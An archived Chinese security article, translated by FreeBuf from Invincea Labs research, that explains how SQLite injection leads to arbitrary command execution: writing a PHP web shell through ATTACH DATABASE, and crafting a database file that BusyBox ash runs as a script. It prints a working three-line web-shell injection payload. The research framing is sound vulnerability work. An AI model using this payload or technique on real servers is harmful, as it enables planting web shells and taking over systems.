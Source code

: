 ```yaml
---
layout: post
title: 利用SQLite数据库文件实现任意代码执行
categories:
- Pocket
tags:
---
```

原文地址：http://mp.weixin.qq.com/s/x-biO6TLC5nKFgr3wOJ11Q

收藏时间：2016-11-22 10:34:39

<div  lang="zh">
                <div id="img-content" class="rich_media_area_primary" nodeIndex="6">
                    
                    <p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="11">
                                <label class="profile_meta_label">微信号</label>
                                <span class="profile_meta_value">freebuf</span>
                                </p><p class="profile_meta _RIL_KEEPER_CLASS_" nodeIndex="12">
                                <label class="profile_meta_label">功能介绍</label>
                                <span class="profile_meta_value">国内关注度最高的全球互联网安全新媒体</span>
                                </p>
                    
                    
                    
                    
                                                            
                                                            
                    
                    <div class="rich_media_content " id="js_content" nodeIndex="13">
                        
                       
                        

                        
                        
                        <p class=" _RIL_KEEPER_CLASS_" nodeIndex="14"><div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/1"/></div></p><h2 nodeIndex="15">前言</h2><p class=" _RIL_KEEPER_CLASS_" nodeIndex="16"><span nodeIndex="77">近期，我们对贝尔金WeMo智能家居设备的安全性进行了分析。在研究过程中，我们开发出了一种新型的SQL注入技术，这项技术针对的是SQLite数据库。实验表明，我们可以利用这项SQLite注入技术在SQLite数据库中实现任意代码执行。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="17"><span nodeIndex="78">这篇文章将会告诉大家如何去创建一个SQLite数据库，并且利用纯粹的SQL查询语句来执行一个ashShell脚本。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="18">我们认为，对于渗透测试人员和漏洞研究社区而言，这项技术的适用性是非常广泛的。我们希望这篇文章能够给各位带来有价值的信息，并且各位能够通过这篇文章中的内容自己动手复现这个漏洞。</p><h2 nodeIndex="19">背景知识</h2><p class=" _RIL_KEEPER_CLASS_" nodeIndex="20">利用SQLite注入漏洞来执行任意代码的一个最简单的方法就是利用load_extension()函数来执行共享库中的某个函数。但是libsqlite3.so这个库默认是禁止这个功能的，因为这很明显就是一个安全漏洞。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="21">实际上，在某些SQLite injection cheat sheets（SQLite注入安全备忘单）中，也有人会使用一个ATTACH DATABASE语句来在目标Web服务器的根目录下创建SQLite文件。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="22">此时，攻击者就可以使用恶意PHP代码来对该文件进行处理，当攻击者向服务器请求该文件时，PHP解释器就会执行其中的恶意代码。相关代码如下所示：</p><blockquote nodeIndex="23"><pre nodeIndex="24"><code class="hljs xml" nodeIndex="26"><p class=" _RIL_KEEPER_CLASS_" nodeIndex="25"><span nodeIndex="79">ATTACH DATABASE ‘/var/www/lol.php’ AS lol;</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="27"><span nodeIndex="80">CREATE TABLE lol.pwn (dataz text);</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="28"><span nodeIndex="81">INSERT INTO lol.pwn (dataz) VALUES(‘<?system($_GET[‘cmd’]); ?>’);--</span></p></code></pre></blockquote><p class=" _RIL_KEEPER_CLASS_" nodeIndex="29">ATTACH DATABASE语句首先会检查指定位置是否存在相应的文件。如果存在，那么它便会尝试将该文件视作一个SQLite数据库来打开。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="30">如果不存在，它将会在目标地址创建这个文件，并为这个SQLite数据库文件赋予读取和写入权限。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="31">在上面这个例子中，语句在/var/www/目录下创建了一个名为lol.php的文件，我们可以使用“lol”作为数据库名称来访问这个文件接下来，我们在“lol”数据库中创建了一个名为“pwn”的表，并向该表插入了一个字符串。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="32">当Web服务器请求该文件时，该数据库的后缀名“.php”将会触发Web服务器的PHP解释器。解释器会寻找文件中的“<?”，并尝试执行该符号之后的所有语句，直到解释器扫描到“?>”为止。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="33">在这种情况下，无论 “cmd”这个GET请求变量中包含的是怎样的代码，这些代码最终都会以系统命令的形式得到执行。这样一来，我们就可以使用这个方法来利用SQL注入漏洞实现任意命令执行了。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="34">但是大多数使用SQLite数据库的服务器中并不会安装PHP解释器，例如很多嵌入式系统就是这样。这样一来，我们的技术就不管用了。</p><h3 nodeIndex="35">将SQLite当作一个ash脚本</h3><p class=" _RIL_KEEPER_CLASS_" nodeIndex="36">很多基于Linux的嵌入式系统都会使用BusyBox工具套件来实现绝大部分基础的Linux命令。默认情况下，BusyBox会使用ash shell来实现/bin/sh。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="37">所以我们打算看看是否可以创建一个SQLite数据库文件，并将其当作一个ash shell脚本来执行，而且我们希望只使用SQL语句就能够执行它。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="38">因为ash的命令解析器比PHP的代码解释器要复杂的多，所以我们就要想一些其他的办法了。不过幸运的是，ash比bash要简单得多，看来我们选择ash是正确的。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="39">首先我们要了解的是，ash的解析器对于换行符（“\n”）和圆括号（“（”和“）”）是非常敏感的。这是因为当用户在命令行中按下回车之后，便会插入一个新行，而括号中包含的指令是subshell所需要执行的指令。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="40">所以，如果我们能够找到某种方法可以在SQLite数据库文件中插入这些字符的话，我们就可以用它们来控制ash在处理这个文件时所采用的方式了。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="41"><div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/2"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="42"><span nodeIndex="82">图片1:向一个SQLite数据库文件插入并保存换行符</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="43">我们使用“插入换行符”这个技巧的主要依据为：SQLite数据库会将用于构造数据库模式的SQL语句保存下来，正如图片1顶部的CREATE语句所表示的那样，SQLite数据库会将我们的换行符保存在数据库模式的定义之中。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="44">图片1下半部分的代码显示的是我们将数据库文件以ash shell脚本来运行时的情况。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="45">ash报告的第一个错误是它无法找到“SQLite”命令，因为它在解析代码时，将文件中的第一个词当作了命令，然后将CREATE语句中的内容（换行符之前的代码）当作了命令的执行参数。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="46">这样一来，我们只需要插入新的一行，就可以让ash忽略整个文件的内容了。现在我们要解决的就是如何修复ash的第二个报错，即“unterminated quoted string”（未结束引用字符串）。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="47"><div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/3"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="48"><span nodeIndex="83">图片2:执行“echo”命令</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="49">很简单，解决第二个报错的方法就是另外插入新的一行。大家可以从图片2中看到，我们在新的一行中向CREATE语句中添加了“withoutrowid”。我们在定义完数据表中的列之后，又插入了一个换行符。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="50">这样一来，我们就用换行符包裹住了列定义语句了。当文件被当作脚本来解析时，列定义语句就会被视作一个单独的文本行。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="51">图片2底部的代码表面，当文件作为脚本来执行时，“echonone primary key”这条语句将会被解析为一个echo命令，“noneprimary key”会被输出到屏幕上。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="52">这样一来，我们就可以实现任意命令执行了，因为我们可以将列名修改为任何想要执行的命令。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="53">当然了，这还不是真正意义上的“任意命令执行”，因为我们无法在命令中设置任意参数。为了得到一个有效的列定义，列名之后的第一个词必须符合数据库的类型定义。</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="54"><div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/4"/></div></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="55"><span nodeIndex="84">图片3:使用SQLite数据库文件实现任意命令执行</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="56">为了实现任意命令执行，我们先回顾一下之前运行PHP恶意代码所用的方法，即把需要执行的命令作为表的值来插入。大家可以在图片3中看到，我们也使用了同样的方法，只不过字符串的第一个字符和最后一个字符必须为换行符。</p><h2 nodeIndex="57">总结</h2><p class=" _RIL_KEEPER_CLASS_" nodeIndex="58">阅读完这篇文章之后，大家应该已经知道了如何去创建一个可以被当作ash shell脚本的SQLite数据库文件了。最后，祝大家hacking愉快！</p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="59"><span nodeIndex="85">* 参考来源：</span><span nodeIndex="86">invincealabs</span><span nodeIndex="87">，FB小编Alpha_h4ck编译，转载请注明来自</span><span nodeIndex="88">FreeBuf.COM</span><span nodeIndex="89">。</span></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="60"><div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/5"/></div><br nodeIndex="90"></p>
                    </div>
                    <p id="js_preview_reward_wording" class="tips_global reward_tips _RIL_KEEPER_CLASS_" nodeIndex="63"></p><p class=" _RIL_KEEPER_CLASS_" nodeIndex="64">
                            <a class="reward_access" id="js_preview_reward_link" href="">赞赏</a>
                        </p></div><p class="discuss_icon_tips rich_split_tips tr _RIL_KEEPER_CLASS_" nodeIndex="72" childisonlyalink="1">
                        <a href="" id="js_preview_cmt_write">写留言<div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2016-11-22-1489190009/6"/></div></a>
                      </p></div>